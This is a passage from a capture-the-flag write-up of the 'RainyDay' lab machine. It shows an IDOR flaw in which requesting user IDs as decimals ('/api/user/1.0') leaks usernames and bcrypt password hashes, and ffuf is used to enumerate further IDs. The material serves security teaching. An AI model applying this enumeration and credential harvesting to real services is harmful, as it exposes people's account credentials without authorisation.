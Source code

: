 I’ll keep an eye out for a way to access it from RainyDay itself.

## Shell in Container

### Site Auth as gary

#### IDOR

Typically people think of insecure direct object reference (IDOR) vulnerabilities as changing the user ID from 1 to 2 and getting back data that I’m not supposed to get. But there are other ways that an IDOR can expose data. Some poking around at the API shows that while `/api/user/1` returns an error, `/api/user/1.0` does not!:

```

oxdf@hacky$ curl http://rainycloud.htb/api/user/1.0
{"id":1,"password":"$2a$10$bit.DrTClexd4.wVpTQYb.FpxdGFNPdsVX8fjFYknhDwSxNJh.O.O","username":"jack"}

```

I’ll explore what’s going on here in [Beyond Root](#beyond-root). I’ll grab the other two:

```

oxdf@hacky$ curl http://rainycloud.htb/api/user/2.0
{"id":2,"password":"$2a$05$FESATmlY4G7zlxoXBKLxA.kYpZx8rLXb2lMjz3SInN4vbkK82na5W","username":"root"}
oxdf@hacky$ curl http://rainycloud.htb/api/user/3.0
{"id":3,"password":"$2b$12$WTik5.ucdomZhgsX6U/.meSgr14LcpWXsCA0KxldEw8kksUtDuAuG","username":"gary"}

```

I’ll also confirm that no other users show up this way with `ffuf`:

```

oxdf@hacky$ ffuf -w <( seq 1 1000 ) -u http://rainycloud.htb/api/user/FUZZ.0 -fs 3

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0
________________________________________________

 :: Method           : GET
 :: URL              : http://rainycloud.htb/api/user/FUZZ.0
 :: Wordlist         : FUZZ: /dev/fd/63
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 3
________________________________________________

1                       [Status: 200, Size: 101, Words: 1, Lines: 2, Duration: 96ms]
2                       [Status: 200, Size: 101, Words: 1, Lines: 2, Duration: 171ms]
3                       [Status: 200, Size: 101, Words: 1, Lines: 2, Duration: 203ms]
:: Progress: [1000/1000] :: Job [1/1] :: 364 req/sec :: Duration: [0:00:03] :: Errors: 0 ::

```